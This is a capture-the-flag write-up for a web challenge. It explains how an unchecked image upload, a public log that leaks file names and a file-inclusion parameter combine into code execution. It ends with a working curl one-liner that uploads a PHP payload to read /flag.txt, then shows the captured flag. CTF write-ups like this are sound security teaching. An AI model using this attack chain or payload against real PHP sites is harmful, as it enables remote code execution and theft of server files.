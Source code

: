 # Who is JH 
![image](https://github.com/user-attachments/assets/f77bfdd4-920f-4933-ae6c-05b8ae41176b)

Attachment: [challenge.zip](https://github.com/LazyTitan33/CTF-Writeups/raw/refs/heads/main/SnykCon2025/attachments/who-is-jh.zip)

## Writeup

In the Dockerfile, I can see where the flag is:  

![image](https://github.com/user-attachments/assets/7df0f550-d666-4066-afe8-f1316a3e2fb8)

I can also see that some PHP functions are disabled to prevent RCE:  

![image](https://github.com/user-attachments/assets/5a536885-04c1-4368-9d28-25f9899fde3e)

In the source code, I can see that there is a publicly accessible log file that I can reference:  

![image](https://github.com/user-attachments/assets/7654c2b4-0075-46ee-80c4-3124414fb102)

Indeed, when I access it, I can see the name of the file that I uploaded:  

![image](https://github.com/user-attachments/assets/740869ff-e38c-4638-9736-065268686db5)

This is helpful because it is using `uniqid` to generate a unique name, but the file upload otherwise is not very restricted. The extension is checked, but the content isn't:  

![image](https://github.com/user-attachments/assets/f87e50d8-144e-472f-aa47-74b39c9c64f1)

Continuing the code analysis, I can see that the conspiracy endpoint allows the user to include a file based on the language parameter:  

![image](https://github.com/user-attachments/assets/b8aeedab-388e-40e5-b246-4800f1bd2592)

Putting all of these together, it means we have a valid attack chain to upload a `file.png` with PHP code, use the log to figure out the random name it was given and then use the conspiracy endpoint to include it and run our code.

![image](https://github.com/user-attachments/assets/5575ce45-20cb-45ab-9d53-5962b7ac3f17)

I can get the flag with this oneliner:  

```bash
echo '<?php echo file_get_contents("/flag.txt")?>' | curl -s -X POST -F "image=@-;filename=test.png" http://challenge.ctf.games:31952/upload.php 1>/dev/null; file=$(curl -s 'http://challenge.ctf.games:31952/logs/site_log.txt'|tail -n 1|awk '{print $5}');curl -s "http://challenge.ctf.games:31952/conspiracy.php?language=uploads/$file"|grep flag
```

flag{6558608db040d1c64358ad536a8e06c6}
